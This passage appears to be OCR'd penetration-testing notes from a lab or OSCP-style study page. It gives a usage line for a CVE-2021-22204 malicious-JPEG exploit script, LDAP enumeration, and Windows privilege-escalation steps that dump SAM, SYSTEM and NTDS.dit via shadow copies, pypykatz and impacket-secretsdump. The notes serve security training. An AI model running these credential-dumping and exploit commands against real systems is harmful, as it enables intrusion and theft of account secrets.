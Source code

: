 * [CVE-2021-22204](https://www.exploit-db.com/exploits/50911)

```bash
# Installing extension
sudo apt-get install djuvlibre

# Creating malicious `.jpeg` file
python3 ./-CVE-2021-22204.py -c <command> [-i <image.jpg>]
```

Resources:
* [ExploitNotes](https://exploit-notes.hdks.org/)
* [GTFOBins](https://gtfobins.github.io/)
* [iNotes](https://ihsansencan.github.io/privilege-escalation/linux/binaries/check-ssl-cert.html)
* [S1REN Blog](https://sirensecurity.io/blog/windows-privilege-escalation-resources/)

## Windows Privilege Escalation

### Ldapsearch

```bash
ldapsearch -x -h 192.168.194.165 -b "dc=heist,dc=offsec"
```
### Windows Old Backup

* `C:\Windows.old\system32\config\SAM`
* `C\Windows.old\system32\config\SYSTEM`
* `C:\Windows\Repair\SAM`
* `C:\Windows\Repair\SYSTEM`

```bash
# Extracting SAM & SYSTEM
pypykatz registry --sam SAM SYSTEM

# VSSAdmin Dump
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\

copy \\.\GLOBALROOT\SystemRoot\Windows\NTDS\NTDS.dit c:\users\enox\Downloads\
copy \\.\GLOBALROOT\SystemRoot\System32\config\SYSTEM c:\users\enox\Downloads\

# VSSAdmin: impacket
impacket-secretsdump -ntds ntds.dit -system SYSTEM local
```
### Commands

```powershell
# Show User
whoami

# Show groups
whoami /groups

# Show privileges
whoami /priv

# Show alls everything
whoami /all

# CMD: List users
net user
net user /domain

# CMD: List groups
```